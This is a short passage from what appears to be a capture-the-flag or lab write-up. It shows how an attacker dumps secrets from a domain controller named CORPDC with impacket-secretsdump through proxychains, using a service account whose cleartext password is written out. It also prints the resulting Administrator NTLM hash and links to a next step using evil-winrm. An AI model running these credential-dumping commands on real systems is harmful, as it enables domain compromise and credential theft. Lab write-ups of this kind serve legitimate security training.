 
## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

## Dump hashes from the `CORPDC` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.113.102`

![[Dumping secrets from CORPDC-20240601064020744.webp]]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::

**Next step:** [[Connect CORPDC with evil-winrm]]



